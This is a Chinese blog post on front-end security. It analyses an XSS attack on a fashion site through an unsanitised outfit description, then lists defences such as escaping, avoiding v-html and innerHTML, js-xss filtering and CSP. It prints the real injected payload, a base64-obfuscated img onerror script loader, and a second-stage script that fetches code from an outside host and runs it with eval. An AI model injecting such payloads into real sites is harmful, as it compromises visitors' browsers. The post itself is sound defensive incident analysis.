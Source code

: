title: 前端安全与防范
date: 2019-04-16 9:36:35
categories: security
tags: security
---

## 前言

今天主站遭受了xss攻击，起因是一个普通用户发表了一个穿搭，后端接收到异常警报排查后发现用户的穿搭的**描述**中带有:

```
<p><body/hidden><img src=x onerror=document['write'](atob('PGJvZHkvaGlkZGVuPjxzY3JpcHQgc3JjPWh0dHBzOi8vczUubW9ndWNkbi5jb20vbWxjZG4vYzQ1NDA2LzE5MDQxNV82M2o2NWxlazRkMjJnODZjNWhiN2thOThsOWZmZT48L3NjcmlwdD4='))></p>
```

因为穿搭look中带有格式化后html的描述内容，所以直接通过**v-html**指令输出了描述内容：

```
<div v-if="from === 'detail'" v-html="content" ref="content" style="-webkit-user-select: text"></div>
```

这个时候攻击的html标签将会直接被注入到页面中，这里还涉及到另外一个知识点：

* btoa（base64加密）
* atob （base64解密）

<div><!--more--></div>

经过`atob`解密后：

```
atob('PGJvZHkvaGlkZGVuPjxzY3JpcHQgc3JjPWh0dHBzOi8vczUubW9ndWNkbi5jb20vbWxjZG4vYzQ1NDA2LzE5MDQxNV82M2o2NWxlazRkMjJnODZjNWhiN2thOThsOWZmZT48L3NjcmlwdD4=')

// 转变成

<body/hidden><script src=https://s5.mogucdn.com/mlcdn/c45406/190415_63j65lek4d22g86c5hb7ka98l9ffe></script>

// 一般攻击者都不会将，body隐藏。而是直接通过盗用信息
```

通过`document['write']`将dom写入页面后，通过`mogucdn`资源将会下载脚本：

```
var ua = navigator.userAgent.toLowerCase();

// 在微信环境下，将会通过ajax请求获取站外脚本，获取完成后通过eval动态执行
if (/micromessenger/.test(ua)) {
    $.get('https://api.ruanwin.com/j',function(d) {
        window['ev' + 'al'](d);
    })
}
```


**所幸精选穿搭必须由产品手动审核，该look并不会进入首页，否则至少将造成P1级故障**


## 安全于防范

> 常见攻击手段

* XSS
    * 跨站脚本（Cross-site scripting，通常简称为XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。

* CSRF
    * 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。

### XSS


> XSS防范

在前言中的案例，就是`XSS`攻击的典范。我们如何避免被`XSS`攻击呢，可以从以下几方面入手：

* 输入过滤
    * >符号转译成`&lt;`等符号
* 内容输出
    * 含有`html`输出内容，对 HTML 做安全过滤。下文将详细介绍如果进行安全过滤设计
    * 禁止使用：`.innerHTML`、`.outerHTML`、`document.write()`
    * **Vue**/**React** 技术栈，并且不使用 `v-html`/`dangerouslySetInnerHTML`
    * 过滤库[js-xss](https://github.com/leizongmin/js-xss)
* 使用CSP，限制非白名单脚本加载
    * http请求头添加：Content-Security-Policy
    * 参考：[csp防范添加](http://www.ruanyifeng.com/blog/2016/09/csp.html)
    




